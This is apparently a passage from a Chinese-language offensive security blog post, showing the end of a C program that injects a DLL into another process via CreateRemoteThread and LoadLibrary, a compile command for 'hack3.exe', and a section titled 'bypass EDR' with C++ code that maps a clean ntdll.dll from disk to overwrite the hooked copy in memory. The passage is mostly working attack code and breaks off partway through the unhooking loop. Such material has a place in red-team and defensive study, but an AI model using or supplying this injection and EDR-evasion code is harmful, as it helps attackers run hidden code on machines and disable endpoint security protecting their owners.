 ```
  // Start a new thread in the target process
  remoteThread = CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryFunction, remoteBuffer, 0, NULL);
  CloseHandle(targetProcess);
  return 0;
}
```  
  
编译  
```
x86_64-w64-mingw32-g++ -O2 hack3.c -o hack3.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VZNmh6ic5umfAwo27ichgO5dI99KVZnKQ95rSFQB44K8Mf6uoZeeomRmnHkjeAnRPCK9Bibodib5AWT4516PFEx7jw/640?wx_fmt=png&from=appmsg "")  
  
#### 04-bypass EDR  
  
有些EDR（McAfee EDR）通过篡改ntdll.dll实现注入，这样用户新的进程都会加载ntdll导致被注入进而hook，可以通过拷贝ntdll.dll的代码段，替换掉内存中被篡改的ntdll代码，恢复干净的ntdll  
```
#include <iostream>
#include <windows.h>
#include <winternl.h>
#include <psapi.h>

int main() {
  HANDLE hProcess = GetCurrentProcess();
  MODULEINFO moduleInfo = {};
  HMODULE hNtdllModule = GetModuleHandleA("ntdll.dll");
  LPVOID lpStartingPageAddress = NULL;
  SIZE_T dwSizeOfTheRegion = NULL;

  // retrieve information about the loaded ntdll.dll module
  GetModuleInformation(hProcess, hNtdllModule, &moduleInfo, sizeof(moduleInfo));

  // get the base address of the ntdll.dll module
  LPVOID lpNtdllBase = (LPVOID)moduleInfo.lpBaseOfDll;

  // open the ntdll.dll file
  HANDLE hNtdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);

  // create a file mapping for the ntdll.dll file
  HANDLE hNtdllMapping = CreateFileMapping(hNtdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);

  // map the file mapping into the process's virtual address space
  LPVOID lpNtdllMappingAddress = MapViewOfFile(hNtdllMapping, FILE_MAP_READ, 0, 0, 0);

  // get the DOS header of the hooked ntdll.dll
  PIMAGE_DOS_HEADER pDosHeaderOfHookedDll = (PIMAGE_DOS_HEADER)lpNtdllBase;

  // get the NT header of the hooked ntdll.dll
  PIMAGE_NT_HEADERS pNtHeaderOfHookedDll = (PIMAGE_NT_HEADERS)((DWORD_PTR)lpNtdllBase + pDosHeaderOfHookedDll->e_lfanew);

  // loop through each section of the PE header
  for (WORD i = 0; i < pNtHeaderOfHookedDll->FileHeader.NumberOfSections; i++) {
    PIMAGE_SECTION_HEADER pHookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(pNtHeaderOfHookedDll) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

    // check if the section is the .text section
```